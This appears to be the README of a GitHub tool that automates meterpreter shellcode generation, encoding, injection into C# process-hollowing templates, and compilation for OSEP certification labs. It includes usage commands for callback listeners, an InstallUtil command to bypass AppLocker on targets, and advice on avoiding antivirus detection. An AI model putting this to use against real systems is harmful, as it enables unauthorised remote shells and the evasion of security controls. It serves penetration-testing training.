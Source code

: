 # laz-y
Automating payload generation for OSEP labs and exam. This tool generates x86 and x64 HTTPS staged meterpreter shellcodes, injects them in your CS templates, and generate C# binaries from Linux using mcs. It supports ROT encoding, and soon XOR encoding.

## But, why?
The VPN connection dropped during one of the OSEP challenge labs, and my local IP changed. I needed to recompile all the payloads and tools.. I did not, I wrote a script :) 

## How does it work?
This repo provides a process hollowing template as an example, the point of this tool is to use your own templates.  
When started, the python script will search for marks in all files you put in the "templates" folder and swap the marks for the MSF payload and decoding routines. It then exports the modified template files in the "output" folder, and run "mcs" C# compiler on all *.cs files.
You end up with :
* Your initial templates, untouched
* The templates with marks replaced with MSF payloads and decoding routines
* If the templates are .cs, the resulting C# binaries
* The according metasploit .rc files to start your listeners

## Installation
This script has only been tested on Kali. Execute the following commands on an updated Kali OS to set up the environment:
* `sudo apt update && sudo apt install mono-mcs mono-complete -y`
* `git clone https://github.com/Nariod/laz-y.git`
* `cd laz-y`
* `pip3 install -r requirements.txt`

## Usage
* DO NOT UPLOAD ANYTHING TO VIRUSTOTAL, if you must use https://antiscan.me/
* Add your CS templates in the "templates" folder
* Add the mark `!!!_SHELLCODE_MARK!!!` in the templates, where you want the shellcode to be injected
* Add the mark `!!!DECODE_ROUTINE!!!` in the templates, where you want the decoding routine to be injected
* Run the script with `python3 laz-y.py -l CALLBACK_IP -p CALLBACK_PORT -e ENCODING_OPTION`
* Retrieve the metasploit ressource file (.rc) in the "output" folder
* Start your listener with `sudo msfconsole -q -r output/https.rc`
* Retrieve and use the final binaries located in the "output" folder

On target machine, the final binaries can be executed by:
* Directly executing the binaries, in the case Applocker is not enforced
* Using the InstallUtil lolbin by using `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Nariod\Desktop\MY_BINARY.exe` to circumvent Applocker

Generating binaries on Kali:

![Usage](/images/Usage.png)

Executing the binaries on Windows target, using the InstallUtil lolbin:

![Usage](/images/InstallUtil.png)

Enjoying some shell love:

![Usage](/images/GettingShells.png)

## Research and development
For research purposes, I dedicated [a repo](https://github.com/Nariod/Laz-y-templates) for C# templates compatible with lazy and more realist operations. 

## To do
- [x] Basic mark for shellcode swaping
- [x] Add ROT encoding support
- [x] Force arch when mcs compiles
- [x] Add msf resource files
- [ ] Add XOR support
- [X] Generate the msf resource files
- [x] Check user input for safety
- [x] InstallUtil lolbin support

## Credits
* Stackoverflow 
* https://www.abatchy.com/2017/05/rot-n-shellcode-encoder-linux-x86

Templates
* Process Hollowing : https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
